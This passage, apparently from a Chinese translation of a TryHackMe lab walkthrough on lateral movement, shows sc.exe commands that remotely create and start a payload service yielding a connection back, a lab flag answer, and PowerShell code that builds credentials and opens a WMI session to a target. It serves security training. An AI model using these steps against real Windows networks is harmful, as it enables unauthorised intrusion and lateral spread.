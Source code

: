 ```powershell title="THMJMP2: Command Prompt (As t1_leonard.summers)"
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

:::tip

确保更改服务的名称，以避免与其他服务发生冲突。

:::

启动服务后，您应该会在 AttackBox 上收到连接，在那里您可以访问 t1_leonard.summers 桌面上的第一个 flag。

:::info Answer the questions below

在 `THMIIS` 上的 `t1_leonard.summers` 桌面上运行 `flag.exe` 文件后，flag 是什么？

```plaintext
THM{MOVING_WITH_SERVICES}
```

:::

## Moving Laterally Using WMI - 使用 WMI 进行横向移动

我们还可以通过使用 Windows Management Instrumentation（WMI）以不同的方式执行前面任务中讨论的许多技术。WMI 是 Windows 对 Web-Based Enterprise Management（WBEM）的实现，这是跨设备访问管理信息的企业标准。

简单来说，WMI 允许管理员执行标准管理任务，攻击者可以滥用这些任务以多种方式进行横向移动，我们将讨论这些方式。

### 从 Powershell 连接到 WMI

在使用 Powershell 命令连接到 WMI 之前，我们需要创建一个包含用户和密码的 PSCredential 对象。该对象将存储在 $credential 变量中，并在本任务中的技术中使用到。

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

我们可以使用以下命令来建立 WMI 会话，使用其中的任一协议：

- DCOM：将使用 RPC over IP 连接到 WMI。该协议使用 135/TCP 端口和 49152-65535/TCP 端口，就像使用 sc.exe 时所解释的一样。
- Wsman：将使用 WinRM 连接到 WMI。该协议使用 5985/TCP（WinRM HTTP）或 5986/TCP（WinRM HTTPS）端口。

要从 Powershell 建立 WMI 会话，可以使用以下命令，并将会话存储在 $Session 变量中，在接下来的不同技术中都会用到。

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

`New-CimSessionOption` cmdlet 用于配置 WMI 会话的连接选项，包括连接协议。然后，将选项和凭据传递给 `New-CimSession` cmdlet 以在远程主机上建立会话。

### 使用 WMI 远程创建进程
